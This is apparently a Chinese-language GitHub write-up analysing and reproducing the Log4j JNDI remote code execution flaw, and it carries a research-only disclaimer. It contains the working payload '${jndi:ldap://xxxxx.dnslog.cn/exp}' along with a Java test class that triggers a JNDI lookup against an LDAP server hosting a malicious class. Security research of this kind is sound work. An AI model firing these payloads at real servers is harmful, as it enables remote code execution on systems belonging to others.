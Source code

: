 **注：**
```
# 本文仅供安全研究使用 👨‍✈️
这里想提一嘴，看到很多人在"疯狂"地测dnslog，其实还是希望在没有授权情况下最好不要进行漏洞探测/攻击行为，毕竟"自律是自由的基础"!  👨‍✈️ 
```

### 漏洞分析

根据流传的payload搭建测试环境
- payload
```
${jndi:ldap://xxxxx.dnslog.cn/exp}
```
- 日志级别
```
logger.error("xxxx")
```

- log4j_rce.java
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j_rce {
    private static final Logger logger = LogManager.getLogger(log4j_rce.class);
    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:1389/Evil}");
    }
}
```

一步一步跟进，最后跟到
- org.apache.logging.log4j.core.lookup.Interpolator#lookup

![image](https://user-images.githubusercontent.com/55024146/145439561-9dc12330-6705-4297-aeef-42413a4edc21.png)

似乎就是这里，测试一波

![image](https://user-images.githubusercontent.com/55024146/145439835-a4d042d7-80b9-47ca-a65b-8dcb24ee6bd1.png)

这里可以触发的不只是error,默认情况下fatal也可以，但是实际的业务场景肯定会有所不同。

### 漏洞复现

起一个恶意的LADPServer、恶意类Evil

![image](https://user-images.githubusercontent.com/55024146/145442280-7bfa4038-276e-414b-b0b6-2c1dc6e92e74.png)

然后触发即可

![image](https://user-images.githubusercontent.com/55024146/145442499-f7b1aff3-5c61-4fea-8903-b54d3f1b161c.png)






